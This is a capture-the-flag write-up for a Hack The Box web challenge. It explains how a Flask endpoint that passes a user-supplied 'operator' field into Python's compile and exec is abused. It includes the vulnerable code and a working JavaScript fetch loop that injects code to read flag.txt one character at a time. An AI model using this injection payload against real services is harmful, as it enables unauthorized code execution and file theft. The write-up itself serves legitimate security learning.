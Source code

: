 # Evaluation Deck

>  A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

## Solution
We are given the source code for the website, after reading some of the code, I found an API that features an interesting method that supposedly calculates the health of the ghost (in the website) from the given parameters.

```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```
However, they are using Python's `compile` and `exec` function, which can be very dangerous when executed from unsanitized user input.

We can control all the parameters, but `current_health` and `attack_power` are converted to int and that limits us to passing only numbers.

That leaves us with `operator` that needs to be added to two numbers. So I tried to find a way to convert the flag into a number which can then be converted back  into the flag itself.

I ended up converting the flag into `ASCII` unicode using the following function :

```python
ord(character)
```

So the final payload to be sent as a POST reqeust to api:

```javascript
let str = "";
for (let i = 0; i < 50; i++) {
  fetch("http://161.35.33.243:31976/api/get_health", {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      current_health: "0",
      attack_power: "0",
      operator: `+ ord(open("../../../flag.txt").read()[${i}]);`,
    }),
  })
    .then((response) => response.json())
    .then((data) => {
      str += data.message + " ";
    });
}
```
Then I got the result in ascii unicode, so I converted it back to characters using the following function :
```python
chr(ascii unicode)
```
The Flag:
```
HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
```